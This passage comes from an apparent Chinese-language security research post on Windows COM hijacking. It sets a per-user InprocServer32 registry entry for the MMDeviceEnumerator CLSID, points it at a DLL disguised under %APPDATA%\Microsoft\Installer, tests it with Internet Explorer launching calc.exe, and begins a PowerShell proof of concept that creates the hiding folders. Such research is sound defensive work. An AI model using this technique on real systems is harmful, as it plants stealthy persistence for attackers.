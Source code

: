 注册表位置：`HKCU\Software\Classes\Wow6432Node\CLSID\`

创建项`{BCDE0395-E52F-467C-8E3D-C4579291692E}`

创建子项`InprocServer32`

Default的键值为32位dll路径：

`C:\Users\a\AppData\Roaming\Microsoft\Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}\api-ms-win-downlevel-1x86-l1-1-0._dl`

创建键值： `ThreadingModel` `REG_SZ` `Apartment`

注册表内容如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-4/2-3.png)

**3、测试**

分别启动32位和64位的iexplore.exe，均可触发后门，启动一次calc.exe

测试成功

**注：**

`{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}`对应`CAccPropServicesClass`

参考链接:

https://msdn.microsoft.com/en-us/library/accessibility.caccpropservicesclass(v=vs.110).aspx?cs-save-lang=1&cs-lang=cpp#code-snippet-1

`{BCDE0395-E52F-467C-8E3D-C4579291692E}`对应`MMDeviceEnumerator`

参考链接:

http://msdn.microsoft.com/en-us/library/windows/desktop/dd316556%28v=vs.85%29.aspx

## 0x04 POC编写
---

POC开发需要注意的细节：

**1、操作默认不一定包含文件夹**

需要先判断文件夹`%APPDATA%\Microsoft\Installer\`
如果没有，在`%APPDATA%\Microsoft\`下创建文件夹Installer

```
if((Test-Path %APPDATA%\Microsoft\Installer\) -eq 0)
{
	Write-Host "[+] Create Folder:  $env:APPDATA\Microsoft\Installer\"
	new-item -path $env:APPDATA\Microsoft\ -name Installer -type directory
}
```

**2、创建文件夹{BCDE0395-E52F-467C-8E3D-C4579291692E}**

由于包含特殊字符{}，需要双引号包含路径

```
if((Test-Path "%APPDATA%\Microsoft\Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}") -eq 0)
{
	Write-Host "[+] Create Folder:  $env:APPDATA\Microsoft\Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}"
	new-item -path $env:APPDATA\Microsoft\Installer -name {BCDE0395-E52F-467C-8E3D-C4579291692E} -type directory
}
```
